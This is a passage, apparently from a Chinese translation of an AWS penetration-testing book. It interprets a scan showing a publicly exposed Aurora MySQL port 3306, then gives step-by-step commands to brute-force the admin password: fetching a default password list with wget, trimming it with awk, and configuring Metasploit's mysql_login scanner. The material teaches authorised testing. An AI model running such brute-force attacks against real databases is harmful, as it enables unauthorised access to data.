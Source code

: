 图 6.6 – 扫描 Aurora 并发现端口 3306

从前面的屏幕截图中，看起来实例实际上是在端口`3306`上公开访问的，这是 MySQL 服务使用的端口。现在我们知道目标主机的以下信息：

+   正在使用 MySQL。

+   端口`3306`对公众开放。

这些信息非常重要，因为我们知道系统正在使用 MySQL 的默认端口，并且我们知道正在使用的数据库类型。由于它使用默认端口，这可能意味着安全控制措施较少。

重要提示

将端口更改为不同的服务可以通过混淆增加一些安全性。然而，这可能表明目标上可能实施了更多的安全性。

现在，我们可以继续深入研究如何访问 Aurora 实例。这将需要使用用户名和密码列表进行一些暴力破解。

## 枚举用户名和密码

现在我们对正在运行的服务有了更多的信息，我们需要继续并开始攻击这些服务。在我们的白盒渗透测试方法论的下一步中，我们将开始寻找一些弱密码。如果我们发现了用户名和密码，我们就可以直接访问目标。

发现用户名和密码的一个好而快速的方法是尝试使用默认名称来对服务和设备进行攻击。在我们的情况下，我们知道 MySQL 使用默认用户名`admin`。因为我们知道这一点，我们将使用`admin`用户名进行暴力破解，并使用可以在 GitHub 上找到的密码列表，方法如下：

1.  要获取密码列表，请运行以下命令：

```
$ wget https://raw.githubusercontent.com/PacktPublishing/AWS-Penetration-Testing/master/Chapter%206%3A%20Setting%20up%20and%20pentesting%20AWS%20Aurora%20RDS/mssql-betterdefaultpasslist.txt
```

1.  如果您打开文件，您会注意到列表中既有用户名又有密码 – 我们只需要密码。我们可以使用`awk`命令来切片和打印出密码，并将其存储在一个新文件中：

```
$ cat mssql-betterdefaultpasslist.txt | awk -F: {'print $2'} > AuroraPasswords.txt
```

1.  现在我们已经生成了密码列表，是时候来看一看是否可以获取到 Aurora 的用户名和密码了。我们将使用 Metasploit 来执行这个任务。首先，您需要启动 Metasploit：

```
$ msfdb run
```

1.  接下来，我们将加载`mysql`登录扫描器：

```
$ use auxiliary/scanner/mysql/mysql_login
```

1.  一旦您加载了您的模块，您需要设置一些参数。就像在[*第五章*]（B15630_05_Final_ASB_ePub.xhtml#_idTextAnchor227）中一样，*了解易受攻击的 RDS 服务*，设置以下参数：

```
Set RHOSTS <<aurora instance>>
Set USERNAME admin
Set STOP_ON_SUCCESS true
Set PASS_FILE AuroraPasswords.txt 
```

1.  一旦您设置好所有参数，使用`run`命令来执行针对 Aurora 主机的扫描：

![图 6.7 – 密码暴力破解](img/Figure_6.07_B15630.jpg)
